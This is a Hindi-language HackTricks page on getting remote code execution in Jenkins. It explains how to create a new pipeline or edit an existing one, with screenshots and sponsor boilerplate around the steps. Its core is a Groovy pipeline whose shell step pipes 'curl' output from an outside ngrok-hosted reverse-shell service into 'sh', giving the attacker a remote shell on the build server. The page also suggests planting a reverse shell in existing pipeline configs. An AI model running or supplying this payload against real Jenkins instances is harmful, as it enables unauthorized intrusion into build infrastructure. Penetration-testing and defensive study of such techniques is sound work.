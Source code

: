 # Jenkins RCE नया पाइपलाइन बनाना/संशोधित करना

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFT संग्रह**](https://opensea.io/collection/the-peass-family)
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos** में PR जमा करके साझा करें।

</details>

## नया पाइपलाइन बनाना

"नया आइटम" में ( `/view/all/newJob` में पहुंचने योग्य) **पाइपलाइन** का चयन करें:

![](<../../.gitbook/assets/image (10) (1).png>)

**पाइपलाइन खंड** में **रिवर्स शेल** लिखें:

![](<../../.gitbook/assets/image (28).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
अंत में **सहेजें** पर क्लिक करें, और **अब बिल्ड करें** और पाइपलाइन को निष्पादित करेंगे:

![](<../../.gitbook/assets/image (17) (1) (1).png>)

## पाइपलाइन को संशोधित करना

यदि आप किसी पाइपलाइन के कॉन्फ़िगरेशन फ़ाइल तक पहुंच सकते हैं, तो आप बस उसे **अपने रिवर्स शेल को जोड़कर संशोधित कर सकते हैं** और फिर इसे निष्पादित करें या इसे निष्पादित होने तक प्रतीक्षा करें।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फ़ॉलो** करें।**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रेपो में पीआर जमा करके अपना योगदान दें।

</details>
